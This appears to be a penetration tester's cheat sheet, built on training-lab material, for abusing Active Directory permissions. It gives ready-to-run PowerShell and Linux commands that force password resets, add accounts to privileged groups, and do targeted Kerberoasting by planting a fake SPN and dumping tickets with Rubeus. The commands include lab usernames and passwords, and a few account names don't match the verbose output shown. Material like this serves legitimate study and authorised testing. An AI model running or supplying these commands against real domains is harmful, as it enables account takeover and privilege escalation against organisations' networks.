 #### Password Reset (User-Force-Change-Password)
Linux
```
```

Create `PSCredential` Object
```powershell
$SecPassword = ConvertTo-SecureString '$$Bond@007$$' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('trilocor\JFLEMMING', $SecPassword)
```
Create `SecureString`Object for user to abuse
```powershell
$damundsenPassword = ConvertTo-SecureString 'Pwn3d123!' -AsPlainText -Force
```
Change users password
```powershell
Import-Module .\PowerView.ps1
Set-DomainUserPassword -Identity damundsen -AccountPassword $damundsenPassword -Credential $Cred -Verbose

OTHER
Set-DomainUserPassword -Identity ssmalls -AccountPassword (ConvertTo-SecureString 'Pwned123!' -AsPlainText -Force ) -Verbose

```
#### Adding User to Group (GenericWrite)
Linux
```powershell
net rpc group addmem "TargetGroup" "TargetUser" -U "DOMAIN"/"ControlledUser"%"Password" -S "DomainController"
```
Create `PSCredential` Object
```powershell
$SecPassword = ConvertTo-SecureString 'Pwn3d123!' -AsPlainText -Force
$Cred2 = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\damundsen', $SecPassword) 
```
Add to group
```powershell
Import-Module .\PowerView.ps1
Add-DomainGroupMember -Identity "MSSP Connect" -Members "KSALINAS" -Credential $Cred -Verbose

VERBOSE: [Get-PrincipalContext] Using alternate credentials
VERBOSE: [Add-DomainGroupMember] Adding member 'damundsen' to group 'Help Desk Level 1'
```
Verify
```powershell
Get-ADGroup -Identity "Help Desk Level 1" -Properties * | Select MemberName
```
Cleanup
```powershell
Remove-DomainGroupMember -Identity "Help Desk Level 1" -Members 'damundsen' -Credential $Cred2 -Verbose
```

#### Targeted Kerberoast
Let's say that our client permitted us to change the password of the `damundsen` user, but the `adunn` user is an admin account that cannot be interrupted. Since we have `GenericAll` rights over this account, we can have even more fun and perform a targeted Kerberoasting attack by modifying the account's [servicePrincipalName attribute](https://docs.microsoft.com/en-us/windows/win32/adschema/a-serviceprincipalname) to create a fake SPN that we can then Kerberoast to obtain the TGS ticket and (hopefully) crack the hash offline using Hashcat

Linux
```bash
python3 ~/opt/AD/targetedKerberoast/targetedKerberoast.py -v -d "fluffy.htb" -u p.agila -p 'prometheusx-303' -U Administrator
```

```powershell
$SecPassword = ConvertTo-SecureString '$$Bond@007$$' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('trilocor\JFLEMMING', $SecPassword)
```

Create fake SPN
```powershell
Set-DomainObject -Credential $Cred -Identity KSALINAS -SET @{serviceprincipalname='notahacker/Pwned'} -Verbose
```
Kerberoast w/ Rubeus
```powershell
.\Rubeus.exe kerberoast /user:KSALINAS /nowrap
```
Cleanup
```powershell
Set-DomainObject -Credential $Cred -Identity adunn -Clear serviceprincipalname -Verbose
```